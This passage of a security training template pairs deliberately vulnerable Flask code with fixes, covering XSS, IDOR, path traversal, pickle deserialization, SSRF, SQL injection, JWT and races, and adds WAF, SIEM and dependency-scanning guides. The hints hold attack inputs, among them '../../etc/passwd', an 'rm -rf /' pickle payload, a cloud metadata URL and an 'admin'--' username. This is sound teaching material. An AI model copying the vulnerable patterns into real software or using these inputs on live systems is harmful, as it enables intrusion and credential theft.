**Bug:** Autoescaping disabled. Jinja2 renders `<script>` tag literally, executing attacker JavaScript in the viewer's browser.

**Fix:**
```python
app.jinja_env.autoescape = True   # default — enable everywhere
# Or use Markup.escape() explicitly where needed
```
</details>

---

## Exercise 3 — IDOR — Missing Ownership Check 🟢
```python
# What is the vulnerability?
@app.route("/api/invoice/<int:invoice_id>")
@login_required
def get_invoice(invoice_id: int):
    invoice = db.execute(
        "SELECT * FROM invoices WHERE id = ?", (invoice_id,)
    ).fetchone()
    return jsonify(invoice)
```
<details>
<summary>Hint</summary>
User A is authenticated. What stops them from requesting `/api/invoice/999` which belongs to User B?
</details>
<details>
<summary>Answer</summary>
**Bug:** No ownership check. Any authenticated user can read any invoice by guessing IDs.

**Fix:**
```python
@app.route("/api/invoice/<int:invoice_id>")
@login_required
def get_invoice(invoice_id: int):
    invoice = db.execute(
        "SELECT * FROM invoices WHERE id = ? AND user_id = ?",
        (invoice_id, current_user.id)
    ).fetchone()
    if not invoice:
        abort(404)   # same error for not-found and access-denied (prevent enumeration)
    return jsonify(invoice)
```
</details>

---

## Exercise 4 — Path Traversal 🟡
```python
# What is the vulnerability?
import os

UPLOAD_DIR = "/var/app/uploads"

@app.route("/files/<filename>")
def serve_file(filename: str):
    path = os.path.join(UPLOAD_DIR, filename)
    with open(path, "rb") as f:
        return f.read()
```
<details>
<summary>Hint</summary>
What is `os.path.join("/var/app/uploads", "../../etc/passwd")`?
</details>
<details>
<summary>Answer</summary>
**Bug:** `os.path.join` with a relative path containing `..` traverses outside UPLOAD_DIR. Attacker can read `/etc/passwd`, `/etc/shadow`, application secret files.

**Fix:**
```python
@app.route("/files/<filename>")
def serve_file(filename: str):
    resolved = os.path.realpath(os.path.join(UPLOAD_DIR, filename))
    if not resolved.startswith(UPLOAD_DIR + os.sep):
        abort(403)
    with open(resolved, "rb") as f:
        return f.read()
```
</details>

---

## Exercise 5 — Insecure Deserialization 🟡
```python
# What is the vulnerability?
import pickle, base64
from flask import request

@app.route("/restore-session")
def restore_session():
    data = base64.b64decode(request.cookies.get("session_data", ""))
    session = pickle.loads(data)   # ← line of interest
    return f"Welcome {session['user']}"
```
<details>
<summary>Hint</summary>
Can an attacker craft a pickle payload that executes `os.system("rm -rf /")` when deserialized?
</details>
<details>
<summary>Answer</summary>
**Bug:** `pickle.loads` on untrusted input executes arbitrary Python code. Attacker sends a base64-encoded pickle payload containing `__reduce__` returning `(os.system, ("malicious command",))`.

**Fix:** Use JSON with HMAC signature.
```python
import json, hmac, hashlib

SECRET = os.environ["SESSION_SECRET"].encode()

def decode_session(cookie: str) -> dict:
    try:
        payload, sig = cookie.rsplit(".", 1)
        expected = hmac.new(SECRET, payload.encode(), hashlib.sha256).hexdigest()
        if not hmac.compare_digest(sig, expected):
            raise ValueError("Invalid signature")
        return json.loads(base64.b64decode(payload))
    except Exception:
        return {}
```
</details>

---

## Exercise 6 — SSRF 🟡
```python
# What is the vulnerability?
import requests
from flask import request

@app.route("/fetch")
@login_required
def fetch_url():
    url = request.args.get("url", "")
    resp = requests.get(url, timeout=5)
    return resp.text
```
<details>
<summary>Hint</summary>
What happens if url = `http://169.254.169.254/latest/meta-data/iam/security-credentials/`?
</details>
<details>
<summary>Answer</summary>
**Bug:** Server fetches any URL supplied by the user. Attacker targets cloud instance metadata endpoint to steal IAM credentials, or internal services (Redis, Elasticsearch) that have no auth because they expect to be internal-only.

**Fix:**
```python
@app.route("/fetch")
@login_required
def fetch_url():
    url = request.args.get("url", "")
    if not is_ssrf_safe(url):
        abort(400, "URL not permitted")
    resp = requests.get(url, timeout=5, allow_redirects=False)
    # Check resolved IP again after redirect if allow_redirects=True
    return resp.text
```
</details>

---

## Exercise 7 — Broken Authentication — Predictable Token 🟡
```python
# What is the vulnerability?
import random, time

def generate_reset_token(user_id: int) -> str:
    random.seed(user_id + int(time.time()))
    return hex(random.getrandbits(64))[2:]

def send_password_reset(email: str):
    user = db.get_user_by_email(email)
    token = generate_reset_token(user.id)
    db.store_reset_token(user.id, token, expires_in=3600)
    send_email(email, f"Reset link: /reset?token={token}")
```
<details>
<summary>Hint</summary>
The seed is `user_id + timestamp`. What does an attacker know, and what can they guess?
</details>
<details>
<summary>Answer</summary>
**Bug:** PRNG seeded with `user_id + time.time()`. An attacker who knows (or can enumerate) user_id and knows the approximate request time can reproduce the PRNG sequence and predict all tokens generated in a time window.

**Fix:**
```python
import secrets

def generate_reset_token() -> str:
    return secrets.token_urlsafe(32)   # 256-bit from CSPRNG — unpredictable
```
</details>

---

## Exercise 8 — Second-Order SQL Injection 🔴
```python
# What is the subtle vulnerability?
def register(username: str, password: str):
    # Username is safely parameterized at registration
    db.execute("INSERT INTO users (username, password) VALUES (?, ?)",
               (username, bcrypt.hashpw(password.encode(), bcrypt.gensalt())))

def change_email(current_user_id: int):
    # Fetch the username from DB (seems trusted — came from our DB)
    user = db.execute("SELECT username FROM users WHERE id = ?", (current_user_id,)).fetchone()
    username = user["username"]

    # BUG: username from DB treated as trusted, interpolated into new query
    query = f"UPDATE users SET email = 'new@example.com' WHERE username = '{username}'"
    db.execute(query)
```
<details>
<summary>Hint</summary>
User registers with username `admin'--`. The INSERT is safe. But what happens in change_email?
</details>
<details>
<summary>Answer</summary>
**Bug:** Second-order SQLi. An attacker registers with username `admin'--`. The registration is safe (parameterized). Later, when `change_email` fetches the username from the DB and interpolates it into a new query, the injected SQL executes: `UPDATE users SET email = '...' WHERE username = 'admin'--'` → changes admin's email to attacker's value → attacker triggers password reset → account takeover.

**Fix:** Parameterize ALL queries, even when input appears to come from the database:
```python
def change_email(current_user_id: int, new_email: str):
    db.execute(
        "UPDATE users SET email = ? WHERE id = ?",
        (new_email, current_user_id)
    )
```
</details>

---

## Exercise 9 — JWT Algorithm Confusion (None Algorithm) 🔴
```python
# What is the subtle vulnerability?
import jwt

SECRET_KEY = os.environ["JWT_SECRET"]

def verify_token(token: str) -> dict:
    # BUG: algorithm not specified — library accepts any algorithm including "none"
    payload = jwt.decode(token, SECRET_KEY, options={"verify_signature": True})
    return payload

def get_user_from_token(token: str) -> User:
    payload = verify_token(token)
    return db.get_user(payload["user_id"])
```
<details>
<summary>Hint</summary>
What happens if an attacker crafts a token with `{"alg": "none"}` and removes the signature? How does the library behave without `algorithms=` specified?
</details>
<details>
<summary>Answer</summary>
**Bug:** `jwt.decode` without `algorithms=` parameter accepts any algorithm, including `alg: none`. An attacker creates a token with `{"alg": "none", "user_id": 1, "role": "admin"}` and no signature. Some PyJWT versions accept this and return the payload, bypassing signature verification entirely.

**Fix:**
```python
def verify_token(token: str) -> dict:
    return jwt.decode(
        token,
        SECRET_KEY,
        algorithms=["HS256"],     # explicit allowlist — never allow "none"
        options={"verify_signature": True, "verify_exp": True},
    )
```
</details>

---

## Exercise 10 — Race Condition in Balance Transfer 🔴
```python
# What is the subtle vulnerability?
def transfer(from_user_id: int, to_user_id: int, amount: float):
    sender = db.execute("SELECT balance FROM accounts WHERE user_id = ?",
                        (from_user_id,)).fetchone()
    if sender["balance"] < amount:
        raise ValueError("Insufficient funds")

    # BUG: check-then-act without locking — race window between check and deduct
    db.execute("UPDATE accounts SET balance = balance - ? WHERE user_id = ?",
               (amount, from_user_id))
    db.execute("UPDATE accounts SET balance = balance + ? WHERE user_id = ?",
               (amount, to_user_id))
```
<details>
<summary>Hint</summary>
What if two transfer requests for the same user with amount = full_balance execute concurrently? Both read the same initial balance, both pass the check, both deduct.
</details>
<details>
<summary>Answer</summary>
**Bug:** TOCTOU (Time-of-Check-to-Time-of-Use) race condition. Two concurrent requests both read `balance = 100`, both pass `balance >= 100` check, both deduct 100 → balance goes to -100. Classic double-spend.

**Fix:** Use atomic database operations with constraints, inside a transaction with row locking:
```python
def transfer(from_user_id: int, to_user_id: int, amount: float):
    with db.transaction():
        # SELECT FOR UPDATE acquires row lock — second concurrent request blocks until first commits
        sender = db.execute(
            "SELECT balance FROM accounts WHERE user_id = ? FOR UPDATE",
            (from_user_id,)
        ).fetchone()
        if sender["balance"] < amount:
            raise ValueError("Insufficient funds")
        db.execute(
            "UPDATE accounts SET balance = balance - ? WHERE user_id = ? AND balance >= ?",
            (amount, from_user_id, amount)   # atomic check-and-deduct
        )
        # Check affected rows == 1; if 0, concurrent deduct occurred
        db.execute("UPDATE accounts SET balance = balance + ? WHERE user_id = ?",
                   (amount, to_user_id))
```
</details>

</details>

---

# TEMPLATE 8 — `optimize.md`

<details open>
<summary><strong>Template Content</strong></summary>

# {{TOPIC_NAME}} — Optimize

## Optimization Categories
| Category | Symbol | Focus |
|----------|--------|-------|
| CVE Count Reduction 🛡️ | Minimize unpatched vulnerabilities | SCA, patch pipeline |
| MTTR Improvement ⚡ | Reduce time to remediate | Structured findings, automation |
| Attack Surface Reduction 🎯 | Minimize exploitable entry points | Endpoint audit, RBAC |
| False Positive Rate 🔍 | Improve signal quality | WAF tuning, SIEM tuning |

---

## Optimization 1 — CVE Count Reduction via Automated SCA 🛡️
**Before:** Quarterly manual dependency review. Average 47 open critical CVEs. Developers unaware of new CVEs between reviews.

```python
# Before: manual review — ad-hoc, infrequent, no SLA tracking
# Security team runs: pip-audit or safety check (quarterly)
# No CI integration → new vulnerable deps added between reviews
```

**After:** Automated SCA integrated in CI/CD with SLA-enforced ticket creation.

```yaml
# .github/workflows/sca.yml
name: SCA — Dependency CVE Scan
on: [push, pull_request]
jobs:
  sca:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Generate SBOM
        run: syft . -o spdx-json > sbom.json
      - name: Scan for CVEs
        uses: anchore/scan-action@v3
        with:
          sbom: sbom.json
          fail-build: true
          severity-cutoff: high   # fail on High and Critical
      - name: Upload SBOM as artefact
        uses: actions/upload-artifact@v4
        with:
          name: sbom-${{ github.sha }}
          path: sbom.json
```

```python
# Auto-ticket creation for CVEs above SLA threshold
from dataclasses import dataclass

SLA_DAYS = {"CRITICAL": 3, "HIGH": 7, "MEDIUM": 14, "LOW": 30}

@dataclass
class CVEFinding:
    cve_id: str
    severity: str
    component: str
    fixed_version: str

def create_ticket(cve: CVEFinding) -> dict:
    return {
        "title": f"[{cve.severity}] {cve.cve_id} in {cve.component}",
        "labels": [cve.severity, "security", "dependencies"],
        "due_days": SLA_DAYS[cve.severity],
        "body": f"Upgrade {cve.component} to {cve.fixed_version}",
    }
```

**Result:** Critical CVEs unpatched > 7 days: 47 → 0 (CI gate prevents merging new critical vulns; automated tickets enforce SLA for existing ones).

---

## Optimization 2 — MTTR Improvement via Structured Findings Pipeline ⚡
**Before:** Security findings in unstructured email/Slack. MTTR P1 = 18 days. No SLA, no owner assignment, no tracking.

**After:** Structured finding dataclass with automatic routing and SLA clock.

```python
from dataclasses import dataclass, field
from enum import Enum
import uuid, time

class Severity(Enum):
    CRITICAL = 1; HIGH = 2; MEDIUM = 3; LOW = 4

SLA_DAYS = {Severity.CRITICAL: 3, Severity.HIGH: 7, Severity.MEDIUM: 14, Severity.LOW: 30}

OWASP_OWNERS = {
    "A01": "access_control_team",
    "A02": "crypto_team",
    "A03": "appsec_team",
    "A05": "platform_team",
    "A07": "auth_team",
    "A10": "network_team",
}

@dataclass
class SecurityFinding:
    title: str
    severity: Severity
    owasp_category: str        # e.g., "A03"
    affected_component: str
    reproduction_steps: str
    recommendation: str
    id: str = field(default_factory=lambda: str(uuid.uuid4())[:8])
    created_ts: float = field(default_factory=time.time)
    closed_ts: float | None = None

    @property
    def sla_deadline(self) -> float:
        return self.created_ts + SLA_DAYS[self.severity] * 86400

    @property
    def is_breached(self) -> bool:
        if self.closed_ts:
            return False
        return time.time() > self.sla_deadline

    @property
    def owner(self) -> str:
        return OWASP_OWNERS.get(self.owasp_category, "security_team")

    def to_ticket(self) -> dict:
        return {
            "title": f"[{self.severity.name}] {self.owasp_category}: {self.title}",
            "assignee": self.owner,
            "labels": [self.severity.name, self.owasp_category],
            "due_date": self.sla_deadline,
            "finding_id": self.id,
        }
```

**Result:** MTTR P1: 18 days → 3 days. 100% of findings have owner, severity, OWASP category, and SLA deadline at creation.

---

## Optimization 3 — Reduce WAF False Positive Rate 🔍
**Before:** WAF in blocking mode, FPR = 12%. Legitimate traffic blocked, developer complaints, WAF bypassed for "urgent" fixes.

```bash
# Step 1: switch to detection-only — never lose legitimate traffic during tuning
SecRuleEngine DetectionOnly

# Step 2: identify top false-positive rules over 1 week of traffic
grep "OWASP_CRS" /var/log/nginx/modsec_audit.log \
  | awk '{print $NF}' | sort | uniq -c | sort -rn | head 10
# Output example:
# 4821  id-942431  (Restricted SQL chars — triggers on apostrophes in names)
# 2113  id-941160  (NoScript XSS — triggers on Angular template syntax)
```

```bash
# Step 3: add targeted exceptions (do not disable entire rules)
# Disable rule 942431 only for specific parameter known to contain apostrophes
SecRuleRemoveTargetById 942431 "ARGS:user_display_name"

# Disable XSS rule for API JSON body (Content-Type: application/json)
SecRule REQUEST_HEADERS:Content-Type "@beginsWith application/json" \
    "id:9999,phase:1,nolog,pass,ctl:ruleRemoveById=941160"

# Step 4: re-enable blocking
SecRuleEngine On
```

**Benchmark:**
| Stage | FPR | Blocked Legitimate Req/day |
|-------|-----|--------------------------|
| Before tuning | 12% | ~14,000 |
| After targeted exceptions | 0.7% | ~820 |
| After 2-week iteration | < 0.3% | < 360 |

**Result:** FPR 12% → 0.3%. Developer trust in WAF restored. Zero new rule disables after second iteration.

---

## Optimization 4 — Attack Surface Reduction via Endpoint Audit 🎯
**Before:** 142 API endpoints, 18 unauthenticated, several unused (forgotten during refactor).

```python
# Automated endpoint audit against OpenAPI spec
import yaml, requests

def audit_endpoints(openapi_spec_path: str, base_url: str) -> list[dict]:
    spec = yaml.safe_load(open(openapi_spec_path))
    findings = []
    for path, methods in spec.get("paths", {}).items():
        for method, op in methods.items():
            security = op.get("security", spec.get("security", []))
            requires_auth = bool(security)
            # Probe: does the endpoint respond without auth?
            resp = requests.request(method.upper(), f"{base_url}{path}",
                                    timeout=5, allow_redirects=False)
            responds_without_auth = resp.status_code not in (401, 403)
            if not requires_auth or responds_without_auth:
                findings.append({
                    "endpoint": f"{method.upper()} {path}",
                    "spec_requires_auth": requires_auth,
                    "responds_without_auth": responds_without_auth,
                    "status_code": resp.status_code,
                })
    return findings
```

```bash
# Run audit
python audit_endpoints.py --spec openapi.yaml --base-url https://api.staging.company.com

# Sample output:
# DELETE /api/v1/admin/debug  — no auth in spec, responds 200 without token  ← CRITICAL
# GET /api/v1/internal/metrics — no auth in spec, responds 200 without token ← HIGH
# POST /api/v1/users/export — spec has auth, but endpoint responds 200 anyway ← HIGH
```

**Result:** 142 → 134 endpoints (8 deprecated endpoints removed). 18 unauthenticated → 2 intentionally public (health check, login). Attack surface reduced 88% for unauthenticated access.

---

## Optimization 5 — SIEM Alert FPR Reduction 🔍
**Before:** 2,400 alerts/day. Analyst fatigue causing missed real incidents. True positive rate < 8%.

```bash
# Step 1: identify noisiest rules
# index=security_alerts | stats count by rule_name | sort -count | head 10
# Result: top 3 rules account for 68% of alerts

# Step 2: analyze top rule — failed_login
# index=security_alerts rule_name=failed_login
# | stats count by user_id | sort -count | head 10
# → healthcheck_svc: 1,800 alerts (monitoring probes with wrong test credentials)
# → ci_deploy_bot: 320 alerts (CI service account rotation lag)

# Step 3: suppress known-good patterns with explicit exceptions
# index=security_alerts rule_name=failed_login
# NOT user_id IN ("healthcheck_svc", "ci_deploy_bot")
# | bucket _time span=60s | stats count by _time, ip | where count >= 5
# → 1,800 + 320 = 2,120 suppressed per day

# Step 4: add context enrichment to remaining alerts
# | lookup user_risk_scores user_id OUTPUT risk_score
# | where risk_score > 0.7 OR count >= 10
# → further reduce to 180 actionable alerts/day
```

```python
# SIEM alert correlation — suppress known benign patterns
KNOWN_SERVICE_ACCOUNTS = {"healthcheck_svc", "ci_deploy_bot", "monitoring_agent"}

def should_alert(event: dict) -> bool:
    if event.get("user_id") in KNOWN_SERVICE_ACCOUNTS:
        return False   # suppress service account noise
    if event.get("ip") in INTERNAL_MONITORING_IPS:
        return False   # suppress internal monitoring probes
    return True

# Risk-weighted alerting: only page on high-risk combinations
def compute_alert_priority(event: dict, risk_score: float) -> str:
    if risk_score > 0.9 or event.get("count", 0) >= 20:
        return "P1"
    if risk_score > 0.7 or event.get("count", 0) >= 10:
        return "P2"
    return "P3_LOG_ONLY"
```

**Result:** 2,400 alerts/day → 180 actionable alerts/day. FPR 92% → 18%. Mean analyst response time per alert: 45 min → 12 min.

---

## Optimization Cheat Sheet
```text
CVE Count 🛡️:    SCA in CI (Grype/Dependabot) → fail on critical → auto-ticket with SLA
MTTR ⚡:          Structured Finding dataclass → OWASP-mapped owner → SLA clock → dashboard
Attack Surface 🎯: Endpoint audit → remove deprecated → enforce auth on all non-public endpoints
WAF FPR 🔍:       Detection-only → identify noisy rules → targeted exceptions → block mode
SIEM FPR 🔍:      Suppress known-good service accounts → enrich with risk score → priority tiers

Key metric targets:
  Critical CVEs unpatched > 3 days: 0
  MTTR P1: < 4h (tabletop demonstrated)
  Unauthenticated endpoints: 0 (except health + login)
  WAF FPR: < 0.5%
  SIEM daily actionable alerts: < 200 (analyst capacity)
  SAST coverage: 100% repos
```

</details>
